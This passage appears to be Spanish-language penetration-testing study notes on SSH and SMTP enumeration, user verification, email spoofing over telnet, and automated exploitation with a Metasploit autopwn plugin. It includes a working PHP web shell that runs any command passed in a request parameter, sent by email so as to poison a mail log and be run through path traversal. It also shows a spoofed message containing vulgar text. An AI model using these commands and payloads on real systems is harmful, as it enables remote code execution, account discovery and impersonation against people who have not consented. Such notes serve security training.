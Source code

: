 - Explotation
```bash
ssh_version
# Importante pasar esta
ssh_enumusers
ssh_login
```

### SMTP

>Puertos 25,465 oo 587

- Módulos
```bash
search type:auxiliary name:smtp
```

- Explotation
```bash
smtp_version
smtp_enum

telnet domain puerto
HELO dominioquetedigan.xzy
VRFY admin@openmailbox.xyz

# Verificamos usuarios
smtp-user-enum -M VRFY o RCPT -t demo.ine.local -U /usr/share/commix/src/txt/usernames.txt 

#Mandamos email impersonando a alguien
telnet 192.168.1.149 25

MAIL FROM:sexo

RCPT TO:root
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject:rot esto pa ti
EEEH primazo, me comes to el cazo

# OTRA alternativa es mandar php malicious 
<?php if(isset($_REQUEST['cmd'])){ echo "<pre<"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; } ?>
# Y visitamos SI HAY PATH TRAVERSAL http://dominio.com/?campovulnerable=/var/log/usuario&cmd=id
.
250 2.0.0 Ok: queued as ED0B8BAC1
quit
```


### Vulnerability Scanning

1. Nmapeamos todas las versiones de todos los servicios que correo por todos los puertos
2. Buscamos exploits de esas versiones en **metasploit** o **searchsploit**
```bash
search type:exploit name:servicio version
```
3. **metasploit-autopown** - Debemos tener toda la info enumerada
```bash
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/refs/heads/master/db_autopwn.rb
mv db_autopwn.rb /usr/share/metasploit-framework/plugins
msf6> load db_autopwn
msf6> db_autopwn
msf6> db_autopwn -t -p -PI 465
msf6> analyze
msf6> vulns
```